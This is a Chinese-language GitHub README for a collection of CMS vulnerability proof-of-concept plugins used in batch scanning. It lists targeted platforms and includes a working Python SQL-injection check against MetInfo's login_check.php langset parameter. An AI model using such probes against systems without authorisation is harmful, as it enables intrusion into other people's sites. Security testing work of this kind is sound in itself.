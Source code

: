 # cms_poc_exp
___

## 次项目的目的与意义
> 个人精力有限,故公开此项目让感兴趣的人一起搜集插件为自己/作者扫描器提供强力的驱动
> 如果感兴趣为本项目提供支持,可以联系本人QQ2563152103


+ 项目说明
  - 本项目插件现已支持Python3 不再兼容Python2,故若要使用 [ShellFrameworkd](https://github.com/1oid/Shell-Frameworkd)
  进行批量扫描,请自行修改插件支持Python2
  - [ShellFrameworkd](https://github.com/1oid/Shell-Frameworkd)批量扫描将会再之后修改为支持Python3

+ 现有的cms插件
  - [dedecms](https://github.com/1oid/cms_poc_exp/tree/master/dedecms)
  - [discuz](https://github.com/1oid/cms_poc_exp/tree/master/discuz)
  - [emobile](https://github.com/1oid/cms_poc_exp/tree/master/emobile)
  - [finecms](https://github.com/1oid/cms_poc_exp/tree/master/finecms)
  - [jcms](https://github.com/1oid/cms_poc_exp/tree/master/jcms)
  - [maccms](https://github.com/1oid/cms_poc_exp/tree/master/maccms)
  - [metinfo](https://github.com/1oid/cms_poc_exp/tree/master/metinfo)
  - [phpcms](https://github.com/1oid/cms_poc_exp/tree/master/phpcms)
  - [tomcat](https://github.com/1oid/cms_poc_exp/tree/master/tomcat)
  - [weblogic](https://github.com/1oid/cms_poc_exp/tree/master/weblogic)
  - [wordpress](https://github.com/1oid/cms_poc_exp/tree/master/wordpress)
  - [网站扫描插件_其他通用漏洞](https://github.com/1oid/cms_poc_exp/tree/master/www)
  - [yonyouoa](https://github.com/1oid/cms_poc_exp/tree/master/yongyouoa)
  - [zfsoft](https://github.com/1oid/cms_poc_exp/tree/master/zfsoft)

+ 插件编写格式,
```python
class Exploit:

  def attack(self, url):
    # 这里写验证漏洞的一些代码
    return "返回(提示)字符串"
```

以`metinfo_login_lang_sql`插件为例
```python
import requests
from urllib.parse import quote

class Exploit:

    def attack(self, url):
        true_url = url + "/admin/login/login_check.php?langset=cn" + quote("' and '1' ='1")
        false_url = url + "/admin/login/login_check.php?langset=cn" + quote("' and '1' ='2")

        response = requests.get(true_url)
        response2 = requests.get(false_url)

        if 'not have this language' in response2.text and 'not have this language' not in response.text:
            return "{} has SQL Injection!".format(true_url)
```


## 本项目目前支持/贡献的人
1 [1oid(作者)](https://github.com/1oid)

